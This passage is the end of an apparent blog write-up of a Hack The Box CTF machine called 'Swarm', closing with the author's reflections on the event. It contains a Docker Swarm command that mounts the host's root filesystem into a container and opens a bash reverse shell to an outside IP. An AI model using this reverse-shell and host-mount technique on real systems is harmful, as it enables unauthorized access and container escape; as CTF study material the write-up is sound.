 ```Step 3:``` Download the docker static binary into the container, so we can interact with docker on the target server.
After the CTF and other solutions were posted, I realized I could have just mounted the filesystem at the beginning and skip the whole process of creating multiple containers and having to download the docker binary.

As you can see when creating the service, we set the source and destination to the filesystem of the host and container respectively.

```sh
docker service create --constraint node.role==worker --name pwn --mount type=bind,source=/,target=/mnt,ro swarm.htb:5000/ubuntu-bash-jq-curl:latest /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.95/8000 0>&1'
```
{{< image src="/img/htb_business_ctf_2024/fullpwn/full_pwn_swarm_15.png" alt="" position="center" style="border-radius: 8px;" >}}

## Conclusion
Sorry for the long post, I had a good time working on the challenges and documenting all of it including the things I learn are part of my way of playing CTFs so I never forget.

It seems the rating of the challenges was skewed towards experienced players as some of the easy ones took some time to complete, hats off to HTB for the CTF. Can't wait to play the next one. The platform is really smooth to use.

If you think I should have broken it up into individual posts for each challenge, let me know! You can reach me on twitter [@ikuamike](https://twitter.com/ikuamike)

Thanks for reading!
